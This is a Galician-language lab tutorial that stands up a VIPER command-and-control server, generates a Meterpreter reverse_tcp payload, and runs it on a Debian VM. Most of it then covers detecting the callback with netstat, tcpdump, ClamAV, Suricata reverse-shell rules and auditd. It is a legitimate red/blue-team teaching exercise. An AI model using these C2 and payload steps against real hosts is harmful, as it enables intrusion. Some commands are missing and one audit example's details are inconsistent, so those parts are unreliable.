

Bastionado e Simulación de Ataques con VIPER
Escenario
Contorna: 3 máquinas virtuais (VMs) Oracle VirtualBox
→ 2 máquinas virtuais executando Debian 12: VM-1 e VM-2
→ 1 máquina virtual executando Microsoft Windows 10: VM-3
- VM-1 (Atacante):
- Rol: Servidor de Comando e Control (C2).
- Software Principal: Instalación base estándar de Debian 12 e VIPER
- Propósito: Administrar os payloads/axentes, enviar tarefas e recoller información
das máquinas vítimas. - Rede:
- NIC1: NAT
- NIC2: Rede Interna → 192.168.120.100/24
- CPU: 2
- RAM: 4GB
- Disco duro: 20GB dinámico
- VM-2 (Vítima a través de payload):
- Rol: Sistema obxectivo simulado.
- Software Inicial: Instalación base estándar de Debian 12.
- Propósito: Executar payload xerado por Viper, o cal establecerá unha conexión
de volta (callback) cara á VM Atacante (C2). - Rede:
- NIC1: NAT
- NIC2: Rede Interna → 192.168.120.101/24
- CPU: 2
- RAM: 4GB
- Disco duro: 20GB dinámico
- VM-3 (Vítima a través de movemento lateral):
- Rol: Sistema obxectivo simulado.
- Software Inicial: Instalación base estándar de Microsoft Windows 10.
- Propósito: Executar módulo en Viper, o cal establecerá unha conexión
dende VM-2 a esta máquina virtual e de volta (callback) cara á VM Atacante (C2). - Rede:
- NIC1: NAT
- NIC2: Rede Interna → 192.168.120.102/24
- CPU: 2
- RAM: 4GB
- Disco duro: 20GB dinámico
Tempo execución payload: 30 minutos
Ver VIPER Pricing
Unha das limitacións que posúe a versión COMMUNITY que imos empregar é que cada sesión establecida coa máquina vítima ten unha limitación de 30 minutos.
Polo tanto isto hai que telo en conta para a realización desta práctica xa que pode ser que a/s conexión/s remate/n e haxa que crear outra/s, cambiando así os PIDs dos procesos executados e os portos da/s conexión/s establecida/s.
Introdución
Importancia de VIPER, Red Team e Blue Team para o Bastionado de Redes e Sistemas
Nos últimos anos, o uso de ferramentas avanzadas de Red Teaming como VIPER converteuse nun estándar na industria da ciberseguridade.
- Red Team: Son equipos de ciberseguridade ofensiva que teñen como obxectivo identificar vulnerabilidades en infraestruturas, sistemas e aplicacións empregando técnicas similares ás utilizadas por atacantes reais (APT's - Advanced Persistent Threats).
- Blue Team: Son equipos defensivos encargados de protexer, monitorizar e responder a posibles ataques. O seu traballo inclúe mellorar as defensas, aplicar contramedidas e manter a seguridade da infraestrutura.
- VIPER: É unha ferramenta deseñada para simular ataques avanzados de forma flexible e modular. Permite realizar movemento lateral, evasión de deteccións, exfiltración de datos e comunicacións encubertas (C2), o que resulta crucial para comprender como mellorar o bastionado de redes. VIPER pode conectarse con Metasploit Framework, permitindo lanzar explotacións, escalar privilexios e executar cargas útiles(payloads) directamente desde Metasploit, mantendo o control centralizado dentro do panel de VIPER.
-
C2 (Command and Control) é un acrónimo estándar en seguridade informática que significa Command and Control. Forma parte da terminoloxía habitual en seguridade ofensiva e defensiva, especialmente en operacións de Red Teaming e en ataques reais levados a cabo por actores maliciosos. O servidor C2 é un servidor centralizado que os atacantes utilizan para controlar os dispositivos comprometidos. No contexto de VIPER, é o elemento que recibe comunicacións dende as máquinas comprometidas, envía comandos e recibe datos extraídos (exfiltración).
Permite:
- Control remoto dos sistemas comprometidos.
- Exfiltración de datos.
- Persistencia e mantemento de acceso.
- Aplicar técnicas de evasión para evitar deteccións.
Por que é importante o bastionado? Asegurar os sistemas mediante probas realistas permite que as organizacións comprendan mellor as súas debilidades e implementen contramedidas axeitadas. Isto é esencial para reducir a superficie de ataque e garantir que, mesmo en caso de comprometer un sistema, os danos sexan minimizados.
Alcance da Proba
- Probas focalizadas en sistemas GNU/Linux e Microsoft Windows dentro dunha rede interna corporativa.
- Técnicas utilizadas: Reverse Shell, Movemento Lateral e Persistencia.
- Obxectivo principal: Identificar fallas explotables e suxerir mitigacións eficaces.
VM-1 Atacante: VIPER
1. Requisitos do Sistema
A instalación mínima require:
- 2 núcleos de CPU (2U) e 4 GB de RAM (4G).
- 5GB de espazo en disco
- Linux kernel 5.x e superior. Imos empregar Debian 12
2. Descarga e Instalación de VIPER
Visita o sitio oficial: viperrtp.com e segue as instrucións proporcionadas para descargar e instalar VIPER.
Basicamente:
1. Cambiar ao usuario root:
sysctl -w net.ipv4.tcp_timestamps=0 # Desactiva as marcas de tempo TCP (RFC 1323).
sysctl -w net.ipv4.tcp_tw_reuse=1 # Permite reutilizar sockets en estado TIME_WAIT para novas conexións saíntes.
sysctl -w net.ipv4.tcp_tw_recycle=1 # Habilita a reciclaxe rápida de sockets TIME_WAIT (obsoleto/problemático con NAT, require timestamps).
sysctl -w net.ipv4.tcp_fin_timeout=3 # Reduce o tempo (segundos) que un socket permanece no estado FIN_WAIT_2.
sysctl -w net.ipv4.tcp_keepalive_time=1800 # Tempo (segundos) de inactividade antes de enviar sondas TCP keepalive (30 min).
sysctl -w net.ipv4.tcp_rmem="4096 87380 8388608" # Establece os tamaños mínimo, predeterminado e máximo (bytes) do búfer de recepción TCP.
sysctl -w net.ipv4.tcp_wmem="4096 87380 8388608" # Establece os tamaños mínimo, predeterminado e máximo (bytes) do búfer de envío TCP.
sysctl -w net.ipv4.tcp_max_syn_backlog=262144 # Tamaño máximo da cola para conexións TCP entrantes pendentes (SYN_RECV).
sysctl -w net.ipv4.ip_local_port_range="1024 65535" # Define o rango de portos locais efémeros para conexións saíntes.
sysctl -w net.core.rmem_max=16777216 # Tamaño máximo absoluto (bytes) do búfer de recepción para todos os sockets.
sysctl -w net.core.wmem_max=16777216 # Tamaño máximo absoluto (bytes) do búfer de envío para todos os sockets.
sysctl -w net.ipv4.tcp_window_scaling=0 # Desactiva o escalado da xanela TCP (RFC 1323), pode limitar o rendemento.
sysctl -w net.ipv4.tcp_sack=0 # Desactiva o Acuse de Recibo Selectivo (SACK), pode afectar a recuperación de perdas.
sysctl -w net.core.netdev_max_backlog=30000 # Tamaño máximo da cola de paquetes de entrada por interface de rede antes de procesalos.
sysctl -w net.ipv4.tcp_no_metrics_save=1 # Evita gardar métricas de conexións TCP na caché de rutas ao pechar.
sysctl -w net.core.somaxconn=262144 # Tamaño máximo da cola de conexións completadas esperando ser aceptadas (`accept()`).
sysctl -w net.ipv4.tcp_syncookies=0 # Desactiva as SYN cookies (mecanismo de protección contra ataques SYN flood).
sysctl -w net.ipv4.tcp_max_orphans=262144 # Número máximo de sockets TCP 'orfos' (sen proceso asociado) no sistema.
sysctl -w net.ipv4.tcp_synack_retries=2 # Número máximo de reintentos para enviar un SYN/ACK en resposta a un SYN.
sysctl -w net.ipv4.tcp_syn_retries=2 # Número máximo de reintentos para enviar un SYN ao iniciar unha conexión.
echo "ulimit -HSn 65535" >> /etc/rc.local # Engade comando a rc.local para aumentar o límite de ficheiros abertos ao arrancar (legacy).
echo "ulimit -HSn 65535" >>/root/.bash_profile # Engade comando ao perfil Bash de root para aumentar o límite de ficheiros abertos nas súas sesións.
echo "ulimit -SHn 65535" >> /etc/profile # Engade comando ao perfil global para aumentar o límite de ficheiros abertos para todos os usuarios.
ulimit -SHn 65535 # Establece o límite de ficheiros abertos (soft e hard) para a sesión actual da shell.
sysctl -w vm.max_map_count=262144 # Aumenta o número máximo de rexións de mapeo de memoria (mmap) que pode ter un proceso.
apt update \
&& apt -y install docker.io \
&& apt -y install docker-compose
/etc/init.d/docker status || systemctl status docker
tee docker-compose.yml <<-'EOF'
services:
viper:
image: viperplatform/viper:latest
container_name: viper-c
network_mode: "host"
restart: always
volumes:
- ${PWD}/loot:/root/.msf4/loot
- ${PWD}/db:/root/viper/Docker/db
- ${PWD}/module:/root/viper/Docker/module
- ${PWD}/log:/root/viper/Docker/log
- ${PWD}/nginxconfig:/root/viper/Docker/nginxconfig
- ${PWD}/elasticsearch:/var/lib/elasticsearch
ulimits:
nofile:
soft: 65534
hard: 65534
nproc:
soft: 65534
hard: 65534
command: ["VIPER_PASSWORD"]
EOF
abc123. para o login do usuario root:
7. Escribir o contrasinal no arquivo docker-compose.yml
3. Configuración do Dashboard en VIPER
VIPER ofrece un Dashboard web para xestionar ataques e monitorizar operacións. Para acceder ao Dashboard:
-
Inicia o servidor VIPER:
-
Acceder á interface de Viper
-
Login
Username: root
Password: abc123. (ou o que configuraches)
Dende o Dashboard podes xestionar os ataques.
Hai que ter en conta que cando accedemos ao dashboard atoparemos 2 máquinas existentes na base de datos do propio VIPER, as cales poderemos eliminar, aínda que se aparecen non afectan ao desenvolvemento desta práctica.
Exemplos Prácticos
Exemplo 1: Reverse Shell

Escenario Resumido
VM-1(VIPER):192.168.120.100(Centro de control, onde está VIPER conmsfconsole).VM-2(Debian con payload activo):192.168.120.101(Acceso logrado dendeVM-1a través dunMeterpreteractivo).
Reverse TCP e Reverse Shell
Reverse TCP:
Unha conexión Reverse TCP é un método no que un sistema comprometido establece unha conexión de saída cara a un servidor remoto (como o servidor C2 configurado con VIPER ou Metasploit).
-
Obxectivo: Establecer unha comunicación entre o sistema comprometido e o servidor atacante.
-
Quen inicia a conexión?: O sistema comprometido.
-
Protocolo utilizado: Normalmente TCP, pero tamén pode ser HTTP, HTTPS, etc.
-
Uso habitual: Comunicación encuberta entre a vítima e o atacante.
-
Exemplo:
Reverse Shell:
Unha Reverse Shell é un tipo específico de conexión Reverse TCP onde o atacante obtén acceso a un shell remoto no sistema comprometido.
- Exemplo de Reverse Shell (simple) con nc:
- Na máquina atacante (servidor VIPER ou Metasploit):
- Na máquina comprometida:
- Resultado: O atacante recibe un shell interactivo desde a máquina comprometida.
VM-1 Atacante: VIPER
-
Crear un
Handleren VIPER:Que é un handler en seguridade ofensiva?
Un handler é un compoñente que escoita e acepta conexións de volta desde un payload executado nunha máquina vítima. Actúa como servidor receptor para establecer sesións remotas cando se usa un
reverse_shellou outro tipo de carga útil.Os handlers son fundamentais en frameworks como Metasploit, onde se configuran (ex:
exploit/multi/handler) para recibir sesións de Meterpreter, shell inversas, etc.Exemplo típico de uso:
- Configurar o handler con IP/porto local.
- Executar un payload que se conecta de volta.
- Cando a vítima executa o payload, o handler "captura" a sesión.
Sen un handler activo, as conexións de volta non se recibirían, e o acceso remoto non sería posible.
- No Dashboard de VIPER, vai á sección de
Handler&Payload. - Crea un novo handler, por exemplo,
linux/x64/meterpreter/reverse_tcpouwindows/x64/meterpreter/reverse_tcpdependendo do obxectivo. - Configura
LHOSTcoa IP do servidor VIPER (a máquina onde corre Docker) eLPORT(p.ex., 4444).
 Sustituír
Sustituír <IP_SERVIDOR_C2>pola IP de Viper.
-
Xerar o
Payload:- Na sección de
Generate Payload, selecciona o handler creado. - Elixe o formato do payload (p.ex.,
elfpara Linux,exepara Windows). - Descarga o payload xerado.
- Na sección de
VM-2 Máquina Vítima
- Comprometer a Máquina Vítima (VM-2 nodo Debian):
- Transfire o payload á máquina vítima (simulando phishing, descarga web, USB, etc.).
- Executa o payload na máquina vítima.
Tempo execución payload: 30 minutos
Ver VIPER Pricing
Unha das limitacións que posúe a versión COMMUNITY que estamos a empregar é que cada sesión establecida coa máquina vítima ten unha limitación de 30 minutos.
Polo tanto isto hai que telo en conta para a realización desta práctica xa que pode ser que a conexión córtese e haxa que crear outra, cambiando así os PIDs dos procesos executados e os portos da conexión establecida.
VM-1 Atacante: VIPER
-
Obter Remote Shell en VIPER:
- No Dashboard de VIPER, deberías ver unha nova sesión (axente) conectada desde a máquina vítima (premer nos segundos de conexión establecidos).

- No Dashboard de VIPER, deberías ver unha nova sesión (axente) conectada desde a máquina vítima (premer nos segundos de conexión establecidos).
-
Execución de comandos na máquina comprometida:
- Interactúa coa sesión para executar comandos (clic botón dereito do rato onde aparecen as IPs da máquina viper e da comprometida).
- Interactúa coa sesión para executar comandos (clic botón dereito do rato onde aparecen as IPs da máquina viper e da comprometida).
VM-2 Máquina vítima
Monitorización: Detectar Reverse TCP desde Debian 12
1. Monitorización de Conexións Activas
Verifica se o nodo Debian 12 está establecendo conexións sospeitosas.
Busca conexións establecidas con enderezos IP que non deberían estar presentes (como a IP do teu servidor VIPER).
# apt update && apt -y install net-tools
# netstat -natp | grep ESTAB
tcp 0 0 192.168.120.101:38396 192.168.120.100:4444 ESTABLISHED 2048/./1743838036.
Ou usando ss que é máis moderno:
# ss -natp | grep ESTAB
ESTAB 0 0 192.168.120.101:38396 192.168.120.100:4444 users:(("1743838036.elf",pid=2048,fd=5))
2. Monitorización de Procesos en Execución
Comproba cales procesos están escoitando en portos específicos. E sobre todo, as conexións establecidas.
# lsof -i -P -n | grep ESTAB
174383803 2048 losada 5u IPv4 22266 0t0 TCP 192.168.120.101:38396->192.168.120.100:4444 (ESTABLISHED)
3. Uso de Ferramentas de Bastionado (IDS/IPS)
Instala un sistema de detección de intrusións (IDS) para monitorizar o tráfico de rede.
Ferramentas Recomendadas:
- Suricata: IDS/IPS avanzado que detecta tráfico sospeitoso.
- Zeek (antigo Bro): Monitoriza a rede e rexistra eventos anómalos.
- Snort: IDS popular que permite crear regras personalizadas.
-
Configuración básica:
-
Execución:
-
Logs: Executar noutra consola de
root:
-
Xerar novas regras para o porto TCP 4444
# echo '# Detectar Reverse Shell mediante conexión TCP a un porto típico (Metasploit, VIPER, etc.) alert tcp any any -> any 4444 (msg:"Reverse TCP Detected - Possible Metasploit/VIPER"; sid:1000001; rev:1; classtype:trojan-activity; priority:1;) # Detectar Reverse Shell mediante conexión a porto alto común (60000) alert tcp any any -> any 60000 (msg:"Reverse TCP Detected - Possible VIPER Connection"; sid:1000002; rev:1; classtype:trojan-activity; priority:1;) # Detectar Reverse Shell mediante HTTP (Metasploit ou VIPER vía HTTP) alert http any any -> any any (msg:"Suspicious HTTP Traffic - Possible Reverse Shell"; content:"POST"; http_method; sid:1000003; rev:1; classtype:trojan-activity; priority:1;) # Detectar Reverse Shell mediante HTTPS (Comunicacións cifradas) alert tls any any -> any any (msg:"Suspicious HTTPS Traffic - Possible Reverse Shell"; sid:1000004; rev:1; classtype:trojan-activity; priority:1;)' > /var/lib/suricata/rules/local.rules -
Configurar para cargar as regras
-
Reiniciar suricata para aplicar os cambios
-
Revisar de novo os Logs: Executar noutra consola de
root:
# tail -f /var/log/suricata/fast.log 04/04/2025-01:47:35.393635 [**] [1:1000001:1] Reverse TCP Detected - Possible Metasploit/VIPER [**] [Classification: A Network Trojan was detected] [Priority: 1] {TCP} 192.168.120.101:47226 -> 192.168.120.100:4444 04/04/2025-01:47:36.609417 [**] [1:1000001:1] Reverse TCP Detected - Possible Metasploit/VIPER [**] [Classification: A Network Trojan was detected] [Priority: 1] {TCP} 192.168.120.101:44780 -> 192.168.120.100:4444
4. Monitorización do Tráfico de Rede
Se queres analizar o tráfico específico xerado polo reverse TCP, podes usar:
# tcpdump -i enp0s8 port 4444
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on enp0s8, link-type EN10MB (Ethernet), snapshot length 262144 bytes
01:13:13.153147 IP 192.168.120.101.41552 > 192.168.120.100.4444: Flags [S], seq 473515495, win 64240, options [mss 1460,sackOK,TS val 2501481294 ecr 0,nop,wscale 7], length 0
01:13:13.154046 IP 192.168.120.100.4444 > 192.168.120.101.41552: Flags [S.], seq 9365323, ack 473515496, win 65160, options [mss 1460,sackOK,TS val 826785556 ecr 2501481294,nop,wscale 7], length 0
01:13:13.154096 IP 192.168.120.101.41552 > 192.168.120.100.4444: Flags [.], ack 1, win 502, options [nop,nop,TS val 2501481295 ecr 826785556], length 0
01:13:13.479097 IP 192.168.120.100.4444 > 192.168.120.101.41552: Flags [P.], seq 1:388, ack 1, win 510, options [nop,nop,TS val 826785881 ecr 2501481295], length 387
01:13:13.479123 IP 192.168.120.101.41552 > 192.168.120.100.4444: Flags [.], ack 388, win 501, options [nop,nop,TS val 2501481620 ecr 826785881], length 0
01:13:13.479478 IP 192.168.120.101.41552 > 192.168.120.100.4444: Flags [P.], seq 1:398, ack 388, win 501, options [nop,nop,TS val 2501481620 ecr 826785881], length 397
4444 é un porto típico usado por Metasploit, pero debes cambialo polo porto que o teu servidor VIPER está usando.
Consulta repetida cada 5 segundos ao mesmo dominio sospeitoso
5. Detección de Malware ou Payloads
Se o ataque implica a descarga dun payload desde o servidor C2 (VIPER), asegúrate de:
- Comprobar arquivos sospeitosos con
sha256sume comparalos con bases de datos de malware. - Usar ferramentas como
ClamAVpara escanear o sistema:# apt install clamav -y # clamscan -r /home/ | tee README.txt ----------- SCAN SUMMARY ----------- Known viruses: 2058898 Engine version: 1.0.7 Scanned directories: 112 Scanned files: 351 Infected files: 1 Data scanned: 86.89 MB Data read: 70.75 MB (ratio 1.23:1) Time: 10.159 sec (0 m 10 s) Start Date: 2025:04:04 01:16:55 End Date: 2025:04:04 01:17:05 # grep elf README.txt /home/losada/1743719330.elf: Unix.Trojan.Generic-9908886-0 FOUND
apt info clamav
Package: clamav
Version: 1.0.7+dfsg-1~deb12u1
Priority: optional
Section: utils
Maintainer: ClamAV Team pkg-clamav-devel@lists.alioth.debian.org
Installed-Size: 30,1 MB
Depends: clamav-freshclam (>= 1.0.7+dfsg) | clamav-data, libc6 (>= 2.34), libclamav11 (>= 1.0.7), libcurl4 (>= 7.16.2), libgcc-s1 (>= 4.2), libjson-c5 (>= 0.15), libssl3 (>= 3.0.0), zlib1g (>= 1:1.2.3.3)
Recommends: clamav-base
Suggests: libclamunrar, clamav-docs
Homepage: https://www.clamav.net/
Tag: implemented-in::c, interface::commandline, role::program,
scope::utility, security::antivirus, use::scanning, works-with::file,
works-with::mail
Download-Size: 5.775 kB
APT-Manual-Installed: yes
APT-Sources: http://deb.debian.org/debian bookworm/main amd64 Packages
Description: anti-virus utility for Unix - command-line interface
Clam AntiVirus is an anti-virus toolkit for Unix. The main purpose of
this software is the integration with mail servers (attachment
scanning). The package provides a flexible and scalable
multi-threaded daemon in the clamav-daemon package, a command-line
scanner in the clamav package, and a tool for automatic updating via
the Internet in the clamav-freshclam package. The programs are based
on libclamav, which can be used by other software.
.
This package contains the command line interface. Features:
- built-in support for various archive formats, including Zip, Tar,
Gzip, Bzip2, OLE2, Cabinet, CHM, BinHex, SIS and others;
- built-in support for almost all mail file formats;
- built-in support for ELF executables and Portable Executable files
compressed with UPX, FSG, Petite, NsPack, wwpack32, MEW, Upack and
obfuscated with SUE, Y0da Cryptor and others;
- built-in support for popular document formats including Microsoft
Office and Mac Office files, HTML, RTF and PDF.
.
For scanning to work, a virus database is needed. There are two options
for getting it:
- clamav-freshclam: updates the database from Internet. This is
recommended with Internet access.
- clamav-data: for users without Internet access. The package is
not updated once installed. The clamav-getfiles package allows
creating custom packages from an Internet-connected computer.
6. Revisar o arquivo ~/.bash_history
Se o ataque foi lanzado recentemente, podes revisar os comandos executados:
# find / -type f -iname .bash_history -exec cat -n {} \; 2>/dev/null
...
93 chmod +x 1743719330.elf
94 ./1743719330.elf
Tempo execución payload: 30 minutos
Ver VIPER Pricing
Unha das limitacións que posúe a versión COMMUNITY que estamos a empregar é que cada sesión establecida coa máquina vítima ten unha limitación de 30 minutos.
Polo tanto isto hai que telo en conta para a realización desta práctica xa que pode ser que a conexión córtese e haxa que crear outra, cambiando así os PIDs dos procesos executados e os portos da conexión establecida.
7. Revisar auditd
Que é auditd?
auditd é o daemon do subsistema de auditoría de Linux, encargado de rexistrar eventos de seguridade e actividades sensibles no sistema, como accesos a ficheiros críticos, cambios en configuracións ou execucións de comandos.
A súa configuración permite controlar que eventos se rexistran e como se almacenan, o que é útil para cumprimento normativo ou para detección de comportamentos sospeitosos.
Unha vez instalado, os logs poden consultarse en /var/log/audit/audit.log. Pódese complementar con regras personalizadas en /etc/audit/rules.d/ para adaptar a auditoría aos obxectivos de seguridade do sistema.
Instalación
Configuración das regras de auditoría
echo '## Rexistrar todas as chamadas ao sistema execve (Creación de Procesos)
# -a action,list: Engadir regra á lista de saída (-a) ao saír da chamada ao sistema (exit), sempre (always).
# -F arch=b64/b32: Especifica a arquitectura (64-bit ou 32-bit). Incluímos ambas para compatibilidade.
# -S execve: Especifica a chamada ao sistema a monitorizar.
# -k process_creation: Unha chave (tag) para buscar facilmente estes eventos.
-a always,exit -F arch=b64 -S execve -k process_creation
-a always,exit -F arch=b32 -S execve -k process_creation
## Rexistrar chamadas ao sistema relacionadas con conexións de rede (saíntes)
# Monitorizamos 'connect' que é a chamada usada para iniciar conexións TCP/UDP saíntes.
# -k network_connection: Chave para buscar eventos de conexión.
-a always,exit -F arch=b64 -S connect -k network_connection
-a always,exit -F arch=b32 -S connect -k network_connection
## Rexistrar chamadas ao sistema relacionadas coa carga/descarga de módulos do kernel
# -S init_module, finit_module, delete_module: Chamadas para cargar e descargar módulos.
# -k module_loading: Chave para buscar estes eventos.
-a always,exit -F arch=b64 -S init_module -S finit_module -S delete_module -k module_loading
-a always,exit -F arch=b32 -S init_module -S finit_module -S delete_module -k module_loading
## (Opcional pero Recomendado) Facer as regras inmutables (require reiniciar para cambiar)
## Descomenta isto só cando esteas seguro das túas regras para maior seguridade
# -e 2' > /etc/audit/rules.d/99-custom.rules
Notas sobre as regras
- Usamos always,exit para rexistrar o evento cando a chamada ao sistema remata.
- Especificamos ambas arquitecturas (b64, b32) por se se executan binarios de 32 bits nun sistema de 64 bits.
- As keys (-k) son moi importantes para filtrar os logs despois.
Cargar as Novas Regras e Activar o Servizo
Verificar que as regras foron cargadas
Buscar nos Logs de Auditoría: ausearch
Agora auditd está rexistrando os eventos definidos. Os logs almacénanse por defecto en /var/log/audit/audit.log. A ferramenta principal para buscar nestes logs é ausearch.
Busca Específica para payload_descargado.elf:
-
Paso 1: Buscar a execución do binario:
Usa a chaveprocess_creatione o nome do executable (-x) para atopar cando se executou o payload.
- Cambia
/ruta/completa/a/payload_descargado.elfpola ruta real onde se executou (se a coñeces) ou simplemente-x payload_descargado.elfse queres buscar calquera execución con ese nome. -i: Interpreta os valores numéricos (como UID, GID, syscalls) en texto lexible.
A saída mostrará eventos
type=SYSCALLrelacionados coa chamadaexecve. Anota o PID (Process ID) e a data/hora aproximada do evento. Exemplo de saída relevante: - Cambia
Executar de novo o payload
Unha vez cargadas as novas regras débese executar de novo o payload para verificar que rexistran os eventos definidos.
# ausearch -k process_creation -x 1743838036.elf -i
----
type=PROCTITLE msg=audit(05/04/25 22:28:49.552:226) : proctitle=./1743838036.elf
type=PATH msg=audit(05/04/25 22:28:49.552:226) : item=1 name=./1743838036.elf inode=261588 dev=08:01 mode=file,755 ouid=losada ogid=losada rdev=00:00 nametype=NORMAL cap_fp=none cap_fi=none cap_fe=0 cap_fver=0 cap_frootid=0
type=PATH msg=audit(05/04/25 22:28:49.552:226) : item=0 name=./1743838036.elf inode=261588 dev=08:01 mode=file,755 ouid=losada ogid=losada rdev=00:00 nametype=NORMAL cap_fp=none cap_fi=none cap_fe=0 cap_fver=0 cap_frootid=0
type=CWD msg=audit(05/04/25 22:28:49.552:226) : cwd=/home/losada
type=EXECVE msg=audit(05/04/25 22:28:49.552:226) : argc=1 a0=./1743838036.elf
type=SYSCALL msg=audit(05/04/25 22:28:49.552:226) : arch=x86_64 syscall=execve success=yes exit=0 a0=0x55ff719369a0 a1=0x55ff7193bc50 a2=0x55ff71934b40 a3=0xd016c19e5dca8816 items=2 ppid=1942 pid=6055 auid=losada uid=losada gid=losada euid=losada suid=losada fsuid=losada egid=losada sgid=losada fsgid=losada tty=pts0 ses=2 comm=1743838036.elf exe=/home/losada/1743838036.elf subj=unconfined key=process_creation
Aquí, o PID é 6055.
Paso 2: Buscar conexións de rede feitas por ese PID:
Agora usa a chave network_connection e filtra polo PID que atopaches no paso anterior. Tamén podes usar un rango de tempo (-ts, -te) se coñeces cando ocorreu a execución.
# Substitúe <PID> polo PID atopado (ex: 5678)
ausearch -k network_connection -p <PID> -i
ausearch -k network_connection -p 6055 -i
----
type=PROCTITLE msg=audit(05/04/25 22:28:49.552:227) : proctitle=./1743838036.elf
type=SOCKADDR msg=audit(05/04/25 22:28:49.552:227) : saddr={ saddr_fam=inet laddr=192.168.120.100 lport=4444 }
type=SYSCALL msg=audit(05/04/25 22:28:49.552:227) : arch=x86_64 syscall=connect success=no exit=EINPROGRESS(Operación en curso) a0=0x5 a1=0x555570f135b0 a2=0x10 a3=0x0 items=0 ppid=1942 pid=6055 auid=losada uid=losada gid=losada euid=losada suid=losada fsuid=losada egid=losada sgid=losada fsgid=losada tty=pts0 ses=2 comm=1743838036.elf exe=/home/losada/1743838036.elf subj=unconfined key=network_connection
Ou, se queres buscar directamente conexións feitas por ese nome de executable (pode ser máis directo):
(De novo, axusta a ruta ou usa só o nome do executábel)A saída buscará eventos type=SYSCALL coa chamada connect (syscall=42 en x86_64) e mostrará o PID e o nome do executábel (exe=). Se payload_descargado.elf fixo conexións de rede saíntes mentres auditd estaba activo coas regras cargadas, deberías velo aquí. A saída incluirá detalles sobre o socket (familia, enderezo IP/porto de destino se está dispoñible no momento da auditoría).
Exemplo de Saída de Conexión:
type=SYSCALL msg=audit(1678886405.456:480): arch=c000003e syscall=42 success=yes exit=0 a0=3 a1=7ff... a2=10 a3=0 items=0 ppid=1234 pid=5678 auid=1000 uid=1000 gid=1000 euid=1000 suid=1000 fsuid=1000 egid=1000 sgid=1000 fsgid=1000 tty=pts0 ses=1 comm="payload_descarga" exe="/home/usuario/payload_descargado.elf" subj=... key="network_connection"
type=SOCKADDR msg=audit(1678886405.456:480): saddr=0200115C C0A80135 0000000000000000 // Familia AF_INET (2), Porto 4444 (0x115C), IP 192.168.120.100 (C0A80135)
payload_descargado.elf, conectouse (syscall 42) a 192.168.120.100 no porto 4444).
O comando ausearch non amosa nada
É unha situación común cando se traballa con logs de auditoría. Hai varias razóns polas que o comando ausearch -k network_connection -i | grep 'exe="/home/losada/1743838036.elf"' podería non mostrar nada, aínda que saibas que o proceso está facendo conexións:
-
O Proceso Principal Non Fai a Conexión Directamente: Moitas veces, un payload (como o teu ELF) que proporciona un shell remoto non realiza todas as operacións de rede directamente. Cando executas
ping 8.8.8.8dentro dese shell remoto:- O proceso
1743838036.elf(o teu shell/payload) crea un novo proceso fillo, que é o comando/usr/bin/ping. - É este novo proceso
/usr/bin/pingo que realmente fai as chamadas ao sistemaconnect(ousendto/recvfrompara ICMP) para enviar e recibir os paquetes do ping. - Polo tanto, o evento de auditoría para a conexión de rede terá
exe="/usr/bin/ping", nonexe="/home/user/1743838036.elf". A conexión do propio shell reverso ao servidor C2 (VIPER) si debería estar asociada ao ELF inicial, pero vexamos iso despois.
- O proceso
-
O Campo
exeNon Coincide Exactamente: Ás veces, a forma en que se rexistra o nome do executábel pode variar lixeiramente (p.ex., por resolución de enlaces simbólicos, ou se o proceso cambia o seu nome). Ogrepque estás usando é moi específico. -
As Regras Non Estaban Activas Cando Se Fixo a Conexión Inicial: Se o payload se executou antes de que as regras de auditoría para
connectestivesen correctamente cargadas e activas (augenrules --load), a conexión inicial ao C2 podería non terse rexistrado. -
Buffer de Auditoría ou Atraso: Pode haber un lixeiro atraso entre o evento e a súa aparición nos logs consultables.
Como Solucionalo e Investigar con ausearch:
Paso 1: Verifica que as regras están activas
Deberías ver as regras que definiches para a chamada ao sistema connect coa chave network_connection. Se non aparecen, recárgaas: augenrules --load.
Paso 2: Busca Conexións de Rede de Forma Máis Ampla (e Recente)
Elimina o grep para ver todos os eventos de conexión recentes e busca manualmente ou cun grep menos específico:
-ts recent: Busca eventos moi recentes (últimos 10 minutos por defecto). Podes usar-ts today,-ts yesterdayou especificar tempos exactos con-ts hh:mm:ss.- Revisa a saída. Busca calquera liña
type=SYSCALLque teñasyscall=42(connect en x86_64). Mira os campospid,ppid,comm=(nome do comando), eexe=para cada evento.
Paso 3: Busca o PID do Payload e Fai a Busca por PID
-
Atopa o PID do teu payload mentres se está executando:
Ou busca o evento de creación do proceso: Anóta opid=que aparece no eventoexecve. Supoñamos que é7123. -
Busca conexións de rede feitas especificamente por ese PID:
Isto debería mostrar a conexión inicial que o teu payload fixo ao servidor C2 de VIPER (asumindo que as regras estaban activas nese momento). Examina o eventoSOCKADDRasociado para ver a IP e porto de destino.
Paso 4: Busca o PID do Proceso ping e as Súas Conexións
-
Mentres o
Anóta o PID. Supoñamos que éping 8.8.8.8se está executando desde o shell de VIPER, busca o seu PID na máquina vítima:7150. -
Busca conexións de rede (ou actividade relacionada) feitas por ese PID
ping:Se atopas eventos para o PID# Busca xeral por PID ausearch -p 7150 -i -ts recent # Busca específica de conexións (pode que ping use outras syscalls ademais de connect para ICMP) ausearch -k network_connection -p 7150 -i -ts recent7150, mira o campoexe=. Case seguro que será/usr/bin/ping(ou similar). Tamén podes ver oppid=(Parent PID) neste evento, que debería coincidir co PID do teu payload (7123no noso exemplo). Isto confirma a relación pai-fillo.
Paso 5: Usa un Grep Máis Tolerante
Se queres seguir usando grep pero sendo menos específico co campo exe:
Isto atopará o nome do ficheiro en calquera parte da liña do log, non só no campo exe=.
En Resumo:
A forma máis fiable é probablemente buscar primeiro a creación do proceso do teu payload (-k process_creation) para obter o seu PID, e logo usar ese PID para buscar as súas conexións de rede (-k network_connection -p <PID>). Para comandos executados dentro do shell (como ping), busca o PID dese comando específico e investiga os seus propios eventos de rede, fixándote no ppid para relacionalo co payload orixinal.
5. Consideracións Adicionais
- Volume de Logs: As regras proporcionadas poden xerar moitos logs, especialmente
execveen sistemas ocupados. En ambientes de produción, poderías querer afinar as regras (por exemplo, auditar só certos directorios, excluír usuarios/procesos de confianza, ou auditar só execucións fallidas). - Log Rotation: Asegúrate de que a rotación de logs para
auditdestá configurada (normalmente en/etc/logrotate.d/auditd) para evitar que o disco se encha. - Interpretación: A saída de
